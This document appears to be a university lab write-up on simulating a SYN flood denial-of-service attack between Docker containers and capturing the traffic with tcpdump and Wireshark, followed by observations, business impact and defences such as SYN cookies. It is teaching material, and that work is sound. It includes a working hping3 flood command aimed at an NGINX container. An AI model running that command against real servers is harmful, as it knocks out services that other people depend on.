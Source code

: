 # SYN Flood Attack Simulation with Docker

**Lab Setup and Traffic Analysis**  
*Erwin Bruno - July 26, 2025*  
*Secure Network Engineering (CYBR-508-02P)*

## Objective

This lab provides hands-on experience with SYN flood attacks, a common form of Denial of Service (DoS). It guides you through building a Docker-based testing environment and developing skills in network traffic analysis using tcpdump and Wireshark.

## Prerequisites

- Docker installed and running
- Wireshark installed on host machine
- Basic understanding of TCP/IP networking
- Administrative privileges for Docker operations

## Lab Setup

### 1. Create Docker Network

```bash
docker network create --driver bridge syn_flood_network
```

### 2. Set Up Target Container (NGINX)

Create the target container with limited resources:
```bash
docker run -dit --name target --network syn_flood_network --cpus="0.2" --memory="256m" --cap-add=NET_ADMIN nginx
```

Enter the target container:
```bash
docker exec -it target bash
```

Inside the target container, update and install tools:
```bash
apt update && apt install iproute2 -y
```

Throttle bandwidth:
```bash
tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
```

Prepare directory and install tcpdump:
```bash
mkdir -p /mnt/data
apt update && apt install tcpdump -y
```

### 3. Set Up Attacker Container

Create and enter the attacker container:
```bash
docker run -it --name attacker --network syn_flood_network ubuntu /bin/bash
```

Inside the attacker container, install hping3:
```bash
apt update && apt install hping3 -y
```

## Attack Execution

### Launch the SYN Flood Attack

Open a new terminal and run inside the attacker container:
```bash
hping3 --flood --syn --destport 80 target
```

## Packet Capture

### Capture Traffic on Target

In the target container, start tcpdump:
```bash
tcpdump -i eth0 'tcp[tcpflags] == tcp-syn' and not port 22 -w /mnt/data/syn_flood_capture.pcap
```

Stop capture with `Ctrl+C` when sufficient data is collected.

### Download and Analyze

Copy the PCAP file from container to host (replace `{Username}` with your username):
```bash
docker cp target:/mnt/data/syn_flood_capture.pcap C:\Users\{Username}\Downloads\
```

Open `syn_flood_capture.pcap` with Wireshark for analysis.

## Cleanup

Stop and remove containers and network:
```bash
docker container stop target attacker
docker container rm target attacker
docker network rm syn_flood_network
```

## Results and Observations

The SYN flood attack successfully demonstrated service disruption. Wireshark analysis revealed:

- **Continuous SYN packet transmission** with no corresponding SYN-ACK responses
- **Connection table exhaustion** confirmed through traffic patterns
- **Disrupted TCP three-way handshake** process
- **Resource consumption** from managing half-open connections
- **Impact on legitimate traffic** due to connection table exhaustion

### Key Findings

- Connection attempts from attacker were not properly completed
- TCP three-way handshake process was disrupted
- Server resources were consumed managing half-open connections
- Legitimate traffic would be impacted due to connection table exhaustion

## Real-World Implications

### Attack Characteristics

SYN flood attacks pose significant threats to network infrastructure because:

- They require **minimal resources from the attacker**
- They can **overwhelm servers** with limited connection handling capacity
- They are **difficult to distinguish** from legitimate high-traffic periods initially
- **Small devices and budget servers** are particularly vulnerable

### Organizations at Risk

- **Small businesses** with limited server resources
- **IoT device manufacturers** with minimal security implementations
- **Legacy systems** without modern TCP stack protections
- **Services without proper rate limiting** or DDoS protection

### Business Impact

Successful SYN flood attacks can result in:

- Service unavailability during peak business hours
- Revenue loss for e-commerce platforms
- Customer dissatisfaction and reputation damage
- Increased operational costs for incident response

## Defense Strategies

### Technical Mitigations

- **SYN Cookies** - Allow servers to handle connections without storing state
- **Rate Limiting** - Block suspicious traffic patterns
- **Timeout Tuning** - Reduce connection timeout values
- **Firewall Rules** - iptables and cloud-based DDoS protection

### Infrastructure Solutions

- Load balancers with traffic filtering
- Cloud-based DDoS protection services
- Network monitoring and alerting systems
- Proper resource allocation and scaling

## Educational Value

This lab demonstrates:

- Practical attack execution in controlled environment
- Network traffic analysis techniques
- Real-world security implications
- Defensive strategy development
- Docker containerization for security testing

## Disclaimer

⚠️ **For Educational Purposes Only**

This lab is designed for educational purposes in controlled environments. Do not use these techniques against systems you do not own or without explicit permission. Unauthorized network attacks are illegal and unethical.
